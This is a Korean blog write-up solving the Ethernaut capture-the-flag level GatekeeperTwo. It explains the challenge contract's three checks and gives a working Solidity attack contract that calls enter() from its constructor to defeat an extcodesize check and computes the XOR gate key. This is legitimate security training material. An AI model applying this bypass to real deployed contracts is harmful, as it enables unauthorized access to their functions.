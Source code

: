 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 15) GatekeeperTwo
date: '2022-01-21 10:57:00'
author: 한성원
tags: ethernaut GatekeeperTwo vulnerability
categories: 취약점분석
---
```



# 👋 Privacy
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Gatekeeper을 지나 entrant로 등록하기
- GatekeeperOne과 같다.

- - -

## 코드 분석
분석은 주석에!
더 자세한 설명은 코드 뒤에 나온다.

```solidity
contract GatekeeperTwo {

    address public entrant;

    // GatekeeperOne와 똑같은 gateOne
    // tx.origin과 msg.sender가 다르게하라!
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    // gateTwo
    modifier gateTwo() {
        uint x;
        // extcodessize(caller())를 x에 저장
        assembly { x := extcodesize(caller()) }
        // x가 0과 같으면 진행
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        // A xor B == C 이게 하라! (^ = XOR)
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
        _;
    }

    // modifier를 다 통과하면 tx.origin이 entrant가 될 수 있다!
    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
- - -


## 풀이
이 문제에서 우리의 목표는 etrant 를 얻는 것이다.

시작하기 전 Ethernaut에서 주는 힌트를 보고가자

- 첫번째 gate는 gatekeeperOne과 같다. gatekeeperOne의 gateOne을 기억해보자
- ```assembly``` 키워드는 Solidity의 vanilla Solidity에 있지않은 기능등에 접근할 수 있게 해준다. ```extcodesize```는 주어진 주소의 contract의 크기를 가져온다. 이더리움 Yellow Paper 7번 섹션에서 더 자세히 배울 수 있다.
- ```^```는 bitwise operation이며 XOR을 뜻한다. Coin Flip을 참조하며 이번 레벨을 시작해도 좋을 것이다.

우리는 entrant를 얻기 위해 3개의 modifier의 require문을 모두 만족시켜야 한다. 

첫번째로 gateOne은 msg.sender와 tx.origin을 다르게 만들면 통과할 수 있다. 이는 다른 contract를 만들어 call하면 통과할 수 있다. gateOne은 [지난 문제](https://holyhansss.github.io/ethernaut/13_gatekeeperOne_ethernaut/13_gatekepperOne_1_ethernaut/)에서 풀었고, [Telephone](https://holyhansss.github.io/ethernaut/4_telephone_ethernaut/4_telephone_ethernaut/)문제에도 나와있음으로 풀 수 있을 것이라고 생각하고 gateTwo로 넘어가도록 하겠다.

두번째로 gateTwo는 ```assembly```와 ```extcodesize```에 대해서 이해해야한다. 

우선 ```assembly```는 low level 연산을 수행 할 수 있도록 도와준다. 또한 힌트에서 알 수 있듯이 vanilla Solidity에 있지 않은 기능에 접근할 수 있게 해준다.  ```assembly```는 Uniswap V2 contract에서도 본적있다. 그렇기 때문에 contract를 분석하기 위해서는 ```assembly```에 대해 아는 것이 필수이다. 

그렇다면 ```extcodesize```는 무엇일까?
`extcodesize`는  주어진 주소의 contract의 크기를 반환한다. 그렇다면 우리가 entrant를 얻기위해 만드는 contract는 크기가 0이 될 수 있나?? 

있다! `extcodesize`는 contract initialization 단계에서는 0을 반환한다. contract creation이 완료되어야 코드가 저장되기 때문이다.
즉 constructor안에 코드를 넣는다면 extcodesize는 0을 반환 할 것이고 gateTwo를 통과할 수 있게된다.

[ethereum yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf)는 이더리움의 기술 백서이다. 기술 백서의 7번(CONTRACT CREATION) section을 보면 extcodesize에 대한 자세히 알 수 있다고 한다. 나는 읽어보고 더 확실한 이해를 위해 구글에 검색했다!

<br/>
마지막으로 gateThree다. gateThree를 통과하기 위해서는 비트 연산자에 대한 개념이 필요하다. 다행히 나는 학교수업에서 배운 적 있어 이해하는데, 큰 어려움은 없었다.

비트연산자에 대해서 먼저 설명해보겠다.  
 - `&`: and; `1010 & 1111 == 1010`
 - `|`: or; `1010 | 1111 == 1111`
 - `^`: xor; `1010 ^ 1111 == 0101`
 - `~`: not; `~1010 == 0101`

위 표는 [이 게시물](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd)을 참조했다.

XOR의 특성을 생각해보면 `A xor B = C` == `A xor C = B`라는 것을 알 수 있다. 우리는 우리의 _gateKey 계산을 위해 gatekeeperTwo contract의 gateThree의 require문 안에있는 수식가져와 위 xor의 특성처럼 대입할 수 있다. require문 안에는 다음과 같은 수식이 들어있다.

```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
```
이를 xor의 특성을 적용해 바꾼다면 다음과 같아진다. 그럼 우린 이 코드를 넣어 _gateKey값을 구해 call을 보내면 된다.
```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1 == uint64(_gateKey)
```

getEtrant contract 코드를 함께 보자!
```solidity
contract GetEntrant {
    // gateTwo를 통과하기 위해 call을 constructor안에서 실행시켰다.
    constructor(address _gatekeeperTwo) public {
        // gateThree에 필요한 _gateKey를 위해 A^B=C를 A^C=B로 바꾸었다.
        // 바꿀때 key는 bytes8임으로 bytes8을 type conversion을 해주었다.
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1);
        // _key를 사용해 call을 보낸다. 
        _gatekeeperTwo.call(abi.encodeWithSignature('enter(bytes8)',_key));
    }
}

```
gatekeeperTwo contract의 주소를 넣어 GetEntrant를 deploy시키면 완료된다!

이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
GateKeeperOne과 마찬가지로 새로운 개념을 많이 배울 수 있는 문제 같았다. 문제를 그냥 푼다기 보다는 문제를 풀며 내가 어떤 것을 배우는지, 그리고 정확하게 이해하며 배우는 것에 집중해야할 것 같다. `assembly` 같은 경우 다른 contract에서도 사용하는 것을 봤고, 이해가 안됐었다. 하지만 문제를 풀며 직접 찾아보고 이해하려고 했을때는 더 잘 이해가 된 것 같다ㅎㅎ 앞으로도 열심히 하자:)


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- 참고 자료: https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd

```toc

```
